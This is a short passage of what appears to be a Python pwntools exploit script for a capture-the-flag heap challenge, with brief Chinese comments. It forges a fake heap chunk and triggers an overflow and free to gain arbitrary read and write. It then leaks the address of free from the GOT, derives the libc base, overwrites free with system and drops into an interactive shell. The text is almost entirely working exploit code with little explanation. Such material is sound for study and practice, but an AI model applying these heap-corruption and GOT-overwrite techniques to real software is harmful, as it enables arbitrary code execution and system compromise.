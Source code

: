 ```python
fake_chunk += "D" * 0xd0
fake_chunk += p64(0xf0)
fake_chunk += p16(0xf0)
#其实好像没必要这样，溢出的时候让下一个chunk仍然是0x100的大小就好了，
#也不用后面再伪造下一个chunk header...

edit(3, fake_chunk)
edit(4, "A" * 0xe0 + p64(0xf0) + p64(0x111) + "A" * 8)
delet(4)
# 3 is 6020c0
# which is 0

#edit 0 for arbitrary write & read
edit(3, p64(FREE_GOT)[:4])
free_addr = u64(show(0) + "\x00\x00")
print hex(free_addr)

base = free_addr - e.symbols["free"]
assert (base & 0xfff) == 0
edit(0, p64(base + e.symbols["system"])[:6])


sh.send("2\x00")
sh.recvuntil("input id\n")
sh.send("1\x00")

sh.interactive()
```

